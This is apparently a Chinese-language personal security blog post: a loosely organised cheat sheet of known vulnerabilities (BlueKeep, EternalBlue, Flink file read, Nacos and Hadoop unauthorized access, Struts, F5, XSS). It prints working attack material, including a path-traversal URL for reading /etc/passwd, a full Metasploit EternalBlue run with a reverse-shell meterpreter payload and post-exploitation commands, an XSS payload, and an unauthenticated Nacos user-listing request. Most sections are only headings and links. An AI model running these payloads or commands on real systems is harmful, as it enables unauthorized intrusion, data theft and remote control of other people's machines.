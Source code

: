 ```yaml
---
layout: post
title:  安全信息泄露之未授权访问
categories: 安全知识
description:  zookeeper 未授权
keywords: 未授权
---
```


# 未授权类

# 信息泄露

## JetBrains .idea 项目路径未删除

例如：`https://IP地址/.idea/workspace.xml`

漏洞危害： 

它允许恶意黑客收集相关信息，这些信息可以在攻击生命周期的后期使用，以便在无法访问这些信息的情况下获得更多。

修复建议：

删除该路径。

# CVE-2019-0708 BlueKeep远程桌面代码执行漏洞


漏洞详情：

当未经验证的攻击者使用RDP连接到目标系统并发送精心编制的请求时，远程桌面服务（以前称为终端服务）中存在远程代码执行漏洞。此漏洞是预验证漏洞，不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。然后，攻击者可以安装程序；查看、更改或删除数据；或者创建具有完全用户权限的新帐户。
要利用此漏洞，攻击者需要通过RDP向目标系统远程桌面服务发送精心编制的请求。

漏洞危害：

成功利用此漏洞的攻击者可以在目标系统上执行任意代码。

# CVE-2021-21985 VMware vCenter Server 远程代码执行

# Apache 任意文件读取 (CVE-2020-17519)

例如：
```
http://<IP地址>:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

# 用友nc任意文件上传漏洞

1. [用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)
2. Liquan 连接木马


# ms17-010（Eternal blue永恒之蓝）

使用 msf 工具攻击

```
msfconsole 
# options 和 payload 设置如下
msf > use exploit/windows/smb/ms17_010_eternalblue (加载攻击模块)
msf > set RHOST 192.168.92.129（被攻击机IP）
msf >set LHOST 192.168.92.132（设置本地IP）
msf >set LPORT 4444(设置连接端口)
msf >set payload windows/x64/meterpreter/reverse_tcp（配置回链方式）

msf >show options(查看配置相关信息)
msf >run（或者exploit,开始攻击）

四、    攻击成功！查看系统信息
meterpreter>sysinfo 爆出系统信息
meterpreter>screenshot 截屏，截屏后的图片存放在/root/中
meterpreter>net user 查看用户密码

```

# MySQL JDBC反序列化漏洞

[MySQL JDBC反序列化漏洞案例
](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

发现方法：
发现后台中有数据库连接功能，经过测试使用的jdk版本较低，可进行jdbc反序列化漏洞。
在服务器上搭建恶意的mysql服务器，之后使用数据库连接功能连接恶意的mysql服务器，成功读取到/etc/host文件：

# 存储型XSS漏洞

- 超链接插入、图片插入
  ```
  "><img src=1 onerror=alter(1)>
  ```

# 版本泄露漏洞

- nginx 报错无屏蔽版本

# Windows Print Spooler服务最新漏洞CVE-2021-34527详细分析

https://blog.csdn.net/weixin_45728976/article/details/118612863

# windows CVE-2019-0708 漏洞利用复现

https://www.freebuf.com/articles/system/269901.html

0x00漏洞概述:

Windows系列服务器于2019年5月15号，被爆出高危漏洞，该服务器漏洞利用方式是通过远程桌面端口3389，RDP协议进行攻击的，堪比WannaCry(蠕虫病毒)。

0x01影响版本:

Windows 7

Windows Server 2008 R2

Windows Server 2008

Windows Server 2003

Windows XP

# Struts 远程代码执行漏洞(CVE-2016-1000031)

Struts2 是Apache软件基金会负责维护的一个基于MVC设计模式的Web应用框架开源项目。 
Apache Struts 2.3.36及之前的版本使用了Commons FileUpload 1.3.2及以下版本，该库作为Struts2的一部分，被用作文件上传的默认机制，该上传机制存在一个高危漏洞，远程攻击者可以利用该漏洞获得远程代码执行能力。

https://www.zerodayinitiative.com/advisories/ZDI-16-570/

https://www.cnblogs.com/peace-and-romance/p/15652512.html

# Hadoop Yarn REST API 未授权漏洞

https://developer.aliyun.com/article/824738

# Nacos 未授权漏洞复现

[Nacos 未授权漏洞复现
](https://www.programminghunter.com/article/25592048521/)
```dotnetcli
get方式获得其他用户信息：

GET /nacos/v1/auth/users?pageNo=1&pageSize=999 HTTP/1.1
Host: XXX
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip
```

# F5 漏洞-CVE-2021-22986 F5 BIG-IP 远程代码执行漏洞复现

[CVE-2021-22986
](https://www.freebuf.com/vuls/266971.html)